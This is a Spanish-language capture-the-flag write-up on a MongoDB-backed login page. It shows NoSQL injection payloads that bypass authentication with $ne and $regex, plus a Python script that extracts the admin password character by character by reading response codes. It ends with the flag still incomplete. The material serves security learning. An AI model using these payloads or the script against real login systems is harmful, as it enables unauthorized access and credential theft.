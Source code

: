 # secret-meeting

Lo primero que hago es montar el reto en local, y echar un primer vistazo a los archivos. Hay dos contenedores interconectados, uno es la pagina web, y el otro es una base de datos en MongoDB (NoSQL). Veo que la pagina web esta montada en el archivo `server.js` donde se están introduciendo unos usuarios a la base de datos, y carga el HTML de la misma.Si interceptamos la peticion de login con BurpSuit, vemos la siguiente información.

![image.png](image/image_01.png)

Pienso que al ser MongoDB, tiene mas velocidad a la hora de hacer consultas, sin embargo no es tan seguro como MySQL, por lo que podremos intentar hacer alguna inyección de NoSQL. Algunos comandos que podemos usar son:

- `[$ne]` → not equal
- `[$where]` → donde
- `[$regex]` → equal
- `[eq]` → equal

No hay funciones que me pueda mostrar la contraseña del usuario administrador. Lo que si podemos ver es que si hacemos una petición para que el usuario sea el administrador y ponemos que la contraseña sea distinta de cualquier cosa nos podremos autenticar como administrador. Esta sería la querry que podemos hacer:

`username[$eq]=admin&password[$ne]=1`

![image.png](image/image_02.png)

Vemos que se nos a autenticado, aunque no conseguimos nada respecto a la flag.

Debemos intentar encontrar un comando que nos indique si la flag que vamos introduciendo es correcta. Otra manera de autenticarnos de manera exitosa es mediante el comando `[$regex]` de la siguiente manera:

`username=admin&password[$regex]=.*`

![Screenshot 2024-11-25 at 22.57.41.png](image/image_03.png)

Esta querry indica mediante el `.*` para indicar cualquier contraseña asociada al parametro `password`.

Sabiendo que la flag empieza por `URJC{` podemos introducir eso como parametro para `password[$regex]` seguido de `.*` para indicar que hay más caracteres. 

- querry: `username=admin&password[$regex]=URJC{.*`

Y el codigo de la respuesta es `200 OK`.

Se me ocurre hacer fuerza bruta letra por letra hasta conseguir que acepte un `}` y entonces sabré cual es la contraseña de administrador.

Podemos hacer un script sencillo con python que haga las peticiones por nosotros, y dependiendo de cual sea el codigo de la respuesta, guarde la letra empleada o la descarte.

```python
import requests
import string

url = "http://localhost:12103/login"  # Reemplaza con la URL real
password = "URJC{"
characters = "}{abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_"
#characters = list(string.ascii_letters) + list(string.digits) + list(string.punctuation) + list(string.whitespace)

while True:
    found = False
    for char in characters:
        test_password = f"^{password}{char}.*"
        data = {
            "username": "admin",
            "password[$regex]": test_password  # Ajuste para que use parámetros codificados
        }
        # Enviar datos como x-www-form-urlencoded
        response = requests.post(url, data=data)

        print(f"Probing with: {test_password}")
        print(f"Status code: {response.status_code}")

        if response.status_code == 200:  # Cambia esto según cómo responde tu servidor
            password += char
            print(f"[+] Password so far: {password}")
            found = True
            break

    if not found:  # Si no encontramos más caracter válidos, la contraseña está completa
        print(f"[!] Password completo: {password}")
        break
```

Tras ejecutarlo, obtenemos lo siguiente:

[Screen Recording 2024-11-25 at 23.14.38.mov](image/vid_01.mov)

Está claro que al hacerlo de manera local, no encontramos la flag real del reto. Modificando las lineas del script, en las cuales realiza la conexión a la web de login, ponemos la proporcionada por el CTFd, y tras un rato, nos devuelve la siguiente flag:

`URJC{4ut0m4t1z4l0_0_sufr3_l4s_c0ns3cu3nc14s`

Si nos fijamos en las flags de otros retos, vemos que todos sigue una misma estructura: `URJC{phrase_token}`.

El token, es un código único, el cual es el que nos falta en este reto, pues una vez tenemos la frase, vendría un guión bajo, seguido del token. Si con burbsuit intentamos hacer esta petición de login: `username[$eq]=admin&password[$regex]=URJC{4ut0m4t1z4l0_0_sufr3_l4s_c0ns3cu3nc14s_.*` 

La página web nos devuelve el código de estado `401 Unauthorized`.

El problema viene dado porque ya no puede continuar comprobando. En este punto, ninguna letra, ni minuscula ni ningun número da una petición `200 OK`.